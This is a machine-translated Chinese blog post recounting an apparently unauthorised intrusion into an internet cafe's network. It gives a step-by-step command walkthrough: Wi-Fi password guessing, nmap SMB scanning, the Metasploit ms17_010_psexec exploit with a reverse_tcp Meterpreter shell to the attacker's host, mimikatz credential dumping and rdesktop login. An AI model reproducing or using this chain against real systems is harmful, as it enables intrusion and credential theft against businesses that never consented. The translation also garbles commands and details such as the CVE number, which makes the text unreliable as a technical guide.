







# 我是怎么黑进网吧的？

> 原文：<https://infosecwriteups.com/how-i-hacked-into-an-internet-cafe-4140cc4103d8?source=collection_archive---------0----------------------->

刚刚结束期末考试，所以我想为什么不写一篇关于我最喜欢的黑客的文章。这是我几个月前进行的一次老黑客攻击，但它在今天仍然与运行传统操作系统且不定期更新的系统密切相关。这篇文章离我很近，因为这是我第一次能够打开远程桌面客户端。

# 介绍

让我给你介绍一下黑客的概况，我通过闯入 wifi 接入点进入网络，然后利用系统容易受到中小企业攻击的事实(CVE-2017–010)，其端口 445 是开放的。然后，我使用 Metasploit 启动一个反向 shell 并获得对系统的控制，然后我加载 mimikatz 以获得登录凭证，然后使用 remote desktop client，这使我能够完全访问文件和文件夹。

说起来容易做起来难，让我给你看看整个事情是如何进行的。

# 让我们开始吧！

所以，黑客攻击从我通过他们的 wifi 进入他们的网络开始，这个 wifi 有一个愚蠢的密码保护，这是非常常见的(123pass456)，你可以在这里阅读我用什么方法实现的-> [黑客 wifi](https://medium.com/bugbountywriteup/how-i-hacked-into-my-neighbours-wifi-and-harvested-credentials-487fab106bfc) 。

嗯，一旦我进入他们的网络，我就执行基本的 nmap 命令，以便更好地了解连接到他们网络的 PC、打印机或电话。

一旦我获得了他们网络上所有系统的 IP 地址，我就使用 nmap 扫描每个系统，然后我发现了这个。

# 黑客！

我特别关注 445 端口。我直接使用了 nmap 默认提供的脚本。

> root @ kali:~ # CD/usr/share/nmap/scripts/

有一次，我在 scripts 文件夹中搜索 smb 漏洞。

> root@kali:~#ls *smb*

我看到了上面的图像，通过它们我继续使用 sm b-vuln-ms17–010 . NSE。要使用它，我必须使用这个命令

> root@kali:~#nmap -p 135，136，445-script = sm b-vuln-ms-17–010 . NSE 10 . 1 . 32 . 17-v

我看到了以下输出。如你所见，风险系数很高，所以我的莫拉莱斯非常高，因为我确信现在攻击肯定会通过。进一步攻击机器的目的是弄清楚利用这个漏洞我可以获得多少访问权限。

我马上打开 metaspolit，输入以下命令

> msf >使用 exploit/windows/SMB/ms17 _ 010 _ psexec

这是我用来开始利用 metasploit 的第一个命令。

> MSF exploit(windows/SMB/ms17 _ 010 _ psexec)>设置有效负载 windows/meter preter/reverse _ TCP

这个命令用来指定我要使用的漏洞利用，就是基于这个漏洞。

> msf 漏洞利用(windows/smb/ms17_010_psexec)>设置 LHOST 10.1.37.143
> 
> MSF exploit(windows/SMB/ms17 _ 010 _ psexec)> set RHOST 10 . 1 . 32 . 17

在上面的命令中，我指定了 LHOST 和 RHOST。LHOST ip 是执行攻击的人的 IP 地址，而 RHOST IP os 是被执行攻击的人的 IP 地址。

> msf 漏洞利用(windows/smb/ms17_010_psexec)>漏洞利用

一旦攻击向量被填充，我就开始利用。

然后它就出现了，米特尔外壳。现在，即使是对黑客感兴趣的普通人也知道，一旦我有了这个，我就几乎完全控制了系统。

所以，现在是我开始开发 rdp 客户端的时候了。为了实现这一点，我输入了以下命令。

> meterpreter >加载 mimikatz

**Mimikatz 是**一个开源实用程序，支持通过其 sekurlsa 模块查看来自 Windows lsass(本地安全授权子系统服务)的凭证信息，其中包括明文密码

> meterpreter>kerberos

我这样做是为了找出受害者系统的用户名和密码。

我一拿到证书。我打开了一个新的终端，并开始远程桌面客户端尝试远程登录系统。

> root@kali~:rdesktop 10.1.32.17

这启动了远程桌面客户端，我输入了登录凭证，嘣！

这给了我对系统的完全访问权，因为我可以操纵任何超过这一点的东西。

# 道德的

这是一个令人难以置信的攻击场景，因为在大多数 reverse_tcp meterpreter shell 中，您需要用户进行某种交互，或者程序需要在系统中运行，而这个特定的漏洞并不需要这样做，因此保护您免受此类攻击的最佳方法是随时更新您的系统操作系统。

附:文章中使用的图片不是来自我的攻击，而是来自我的一个朋友，他在不同的系统上进行了相同的攻击。这些图片已经得到了所有者的许可。

你可以在这里观看他发表的视频>【https://bit.ly/2r3jszO

**如果你喜欢，请鼓掌&让我们合作。获取、设置、破解！**

网址:[aditya12anand.com](https://www.aditya12anand.com/)|捐赠:[paypal.me/aditya12anand](https://paypal.me/aditya12anand)

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:[twitter.com/aditya12anand](https://twitter.com/aditya12anand?source=post_page---------------------------)

领英:[linkedin.com/in/aditya12anand/](https://www.linkedin.com/in/aditya12anand/?source=post_page---------------------------)

电子邮件:aditya12anand@protonmail.com